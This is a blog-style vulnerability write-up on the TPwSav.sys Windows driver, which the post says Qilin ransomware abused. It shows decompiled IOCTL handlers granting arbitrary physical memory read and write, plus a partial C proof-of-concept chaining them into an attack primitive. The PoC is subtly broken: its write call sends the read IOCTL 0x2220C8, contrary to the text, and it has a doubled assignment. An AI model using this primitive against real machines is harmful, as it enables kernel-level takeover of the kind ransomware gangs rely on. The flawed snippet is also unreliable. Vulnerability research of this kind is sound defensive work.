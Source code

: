 ```yaml
---
layout: post
title:  "Vulnerability - TPwSav.sys Driver - Arbitrary Physical Memory Read and Write Primitive"
date:   2025-07-30 06:00:00 +0800
---
```


# Vulnerability - TPwSav.sys Driver - Arbitrary Physical Memory Read and Write Primitive

**Vulnerability Type:** Direct Physical Memory Access

**Sample:** https://www.loldrivers.io/drivers/c0634ed7-840e-4a7e-8b34-33efe50405c2/

**Quick summary:** Original blog by Blackpoint. ITW exploited by Qilin Ransomware gang utilizing the BYOVD, TPwSav.sys driver.

**Blackpoint blog:** https://blackpointcyber.com/blog/qilin-ransomware-and-the-hidden-dangers-of-byovd/

---
### Vulnerability Analysis

#### IOCTL - 0x2220C8 (Read Access)
This function provides a direct arbitrary physical memory read primitive to any user-mode application. The function takes user input containing (8-bytes) physical address then it maps that physical address using **MmMapIoSpace()** API. We can see from the code above it reads 1-byte from the mapped physical memory, `(puVar1 + 1)`. Then it returns the byte to the user (you can read it back from the mapped memory). Decompile code for function FUN_140002de0:
```c

undefined8 FUN_140002de0(longlong param_1)
{
  undefined8 *puVar1;
  undefined *puVar2;
  undefined8 uVar3;
  
  puVar1 = *(undefined8 **)(param_1 + 0x18);      // User buffer pointer
  puVar2 = (undefined *)MmMapIoSpace(*puVar1,1);  // Map physical address, our buffer pointer
  if (puVar2 == (undefined *)0x0) {
    uVar3 = 0xc0000001; 
  }
  else {
    *(undefined *)(puVar1 + 1) = *puVar2;         // Reading bytes and return back to user
    MmUnmapIoSpace(puVar2,1);
    *(undefined8 *)(param_1 + 0x38) = 0xc;
    uVar3 = 0;
  }
  return uVar3;
}
```

#### IOCTL - 0x2220CC (Write Access)
This function provides a direct arbitrary physical memory write primitive to any user-mode application. It allows user input to map their input to write into physical memory which 8 bytes from the buffer start. Similar to Read IOCTL, it uses **MmMapIoSpace()** API. The pointer to `*puVar2` allows user to control their input from the user buffer (from IRP). As you can see in the decompile code, it allows 1-byte write into the physical memory. This means it allows low privilege user to mapped their shellcode and perform further exploitation. Decompile code for function FUN_140002e80:
```c
undefined8 FUN_140002e80(longlong param_1)
{
  undefined8 *puVar1;
  undefined *puVar2;
  undefined8 uVar3;
  
  puVar1 = *(undefined8 **)(param_1 + 0x18);          // User buffer pointer
  puVar2 = (undefined *)MmMapIoSpace(*puVar1,1);      // Map physical address, our buffer pointer
  if (puVar2 == (undefined *)0x0) {
    uVar3 = 0xc0000001;
  }
  else {
    *puVar2 = *(undefined *)(puVar1 + 1);             // puVar2 accepts user input to write data to physical memory
    LOCK();
    MmUnmapIoSpace(puVar2,1);
    *(undefined8 *)(param_1 + 0x38) = 0;
    uVar3 = 0;
  }
  return uVar3;
}
```


### Proof of Concept

I crafted a proof of concept for this vulnerability by chaining both read and write of the IOCTL 0x2220CC and 0x2220C8 which allows me to read from and write into physical memory. Here is the example snippet code of arbitrary physical memory read and write primitive (you should get the entire idea from this):
```c
// device driver
#define DEVICE_DRIVER L"\\\\.\\EBIoDispatch"

// structure for read access
typedef struct _PHYSICAL_READ_REQUEST {
    PHYSICAL_ADDRESS PhysicalAddr;
    BYTE ReadValue;
    BYTE Reserved[3];
} PHYSICAL_READ_REQUEST, * PPHYSICAL_READ_REQUEST;

// structure for write access
typedef struct _PHYSICAL_WRITE_REQUEST {
    PHYSICAL_ADDRESS PhysicalAddr;     
    BYTE WriteValue;                   
    BYTE Reserved[3];                  
} PHYSICAL_WRITE_REQUEST, *PPHYSICAL_WRITE_REQUEST;

// handle for device driver
HANDLE hDevice = hDevice = CreateFileW(DEVICE_DRIVER, ...);

// example set variable for our physical memory
int phyMemAddr = 0x1000000;

// initialize read
PHYSICAL_READ_REQUEST readReq = {0};
readReq.PhysicalAddr = phyMemAddr;

// initialize write
PHYSICAL_WRITE_REQUEST request = { 0 };
request.PhysicalAddr = phyMemAddr;
request.WriteValue = 0xff;

// send request IOCTL for read
DeviceIoControl(hDevice, 0x2220C8, ...);
printf("Reading byte from address 0x%llx = 0x%02x\n", readReq.PhysicalAddr, readReq.ReadValue);

// send request IOCTL for write
DeviceIoControl(hDevice, 0x2220C8, ...);
printf("Writing byte to address 0x%llx = 0x%02x\n", request.PhysicalAddr, request.WriteValue);
```

Following are the example working proof of concept (physical read and write primitives):
![1](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/1.png)




